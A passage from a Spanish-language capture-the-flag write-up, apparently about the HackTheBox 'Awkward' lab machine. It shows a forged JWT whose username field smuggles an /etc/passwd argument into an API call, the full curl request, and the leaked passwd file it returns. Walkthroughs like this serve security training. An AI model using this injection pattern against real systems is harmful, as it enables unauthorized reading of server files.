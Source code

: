 Podrías usar jwt-tool para editar el contenido del token pero yo usaré la página [jwt.io](https://jwt.io) para no tener que pasar por una sección interactiva de jwt-tool por cada archivo que quiera ver. Aunque también puedes hacerte un script

![JWT](/assets/writeups/awkward/12.png)

Usando este JWT, la API nos devuelve el /etc/passwd:

{% highlight bash %}
❯ curl -X GET -v -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ldGMvcGFzc3dkICciLCJpYXQiOjE2NzcxMDEzNjJ9.-0MDZnWUfAOxuFRVgw_8Db05yD1-V80Z81St0hHGySY" http://hat-valley.htb/api/all-leave
Note: Unnecessary use of -X or --request, GET is already inferred.
*   Trying 10.10.11.185:80...
* Connected to hat-valley.htb (10.10.11.185) port 80 (#0)
> GET /api/all-leave HTTP/1.1
> Host: hat-valley.htb
> User-Agent: curl/7.87.0
> Accept: */*
> Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ldGMvcGFzc3dkICciLCJpYXQiOjE2NzcxMDEzNjJ9.-0MDZnWUfAOxuFRVgw_8Db05yD1-V80Z81St0hHGySY
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 22 Feb 2023 21:52:21 GMT
< Content-Type: application/octet-stream
< Content-Length: 3059
< Connection: keep-alive
< x-powered-by: Express
< access-control-allow-origin: *
< etag: W/"bf3-PdFG97gBjwRp4RtnVyUN3af1LtA"
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
